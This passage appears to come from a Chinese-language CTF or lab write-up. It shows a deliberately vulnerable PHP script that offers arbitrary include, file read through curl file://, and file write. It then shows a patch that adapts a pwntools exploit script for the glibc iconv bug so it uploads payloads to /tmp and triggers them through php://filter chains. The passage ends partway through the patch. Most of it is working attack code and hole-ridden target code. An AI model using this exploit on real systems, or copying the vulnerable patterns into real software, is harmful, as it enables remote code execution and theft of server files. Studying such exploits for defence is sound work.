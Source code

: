 编写 PHP 脚本，并使用上面编写的 phar 打包脚本生成 phar 档案包:

```php
<?php
if (isset($_POST["include"])) {
    include $_POST["include"];
}

if (isset($_POST["download"])) {
    $ch = curl_init("file://". $_POST["download"]);
    curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    echo $data;
}

if (isset($_POST["content"]) && isset($_POST["path"])) {
    $content = $_POST["content"];
    if ($_POST["base64"]) {
    	$content = base64_decode($content);
    }
    file_put_contents($_POST["path"], $_POST["content"]);
}
```

随后修改脚本（由于脚本篇幅过长，修改处不多，这边只贴出 **Patch 文件**）:

```patch
--- old/cnext-exploit.py	2025-08-18 13:55:55.256163528 +0800
+++ new/cnext-exploit.py	2025-08-18 13:55:43.005206555 +0800
@@ -22,6 +22,9 @@
 from pwn import *
 from ten import *
 
+import random
+import string
+
 
 HEAP_SIZE = 2 * 1024 * 1024
 BUG = "劄".encode("utf-8")
@@ -52,15 +55,22 @@
     def send(self, path: str) -> Response:
         """Sends given `path` to the HTTP server. Returns the response.
         """
-        return self.session.post(self.url, data={"file": path})
+        return self.session.post(self.url, data={"include": path})
+        
+    def upload(self, path: str, content: str) -> Response:
+        return self.session.post(self.url, data={"path": path, "content": content})
+        
+    def iconv(self, filters: str | None, content: str | bytes) -> Response:
+        filename = "".join(random.choices(string.ascii_letters, k=6))
+        path = "/tmp/" + filename
+        self.upload(path, content)
+        return self.send(f"php://filter{filters}/resource={path}")
         
     def download(self, path: str) -> bytes:
         """Returns the contents of a remote file.
         """
-        path = f"php://filter/convert.base64-encode/resource={path}"
-        response = self.send(path)
-        data = response.re.search(b"File contents: (.*)", flags=re.S).group(1)
-        return base64.decode(data)
+        
```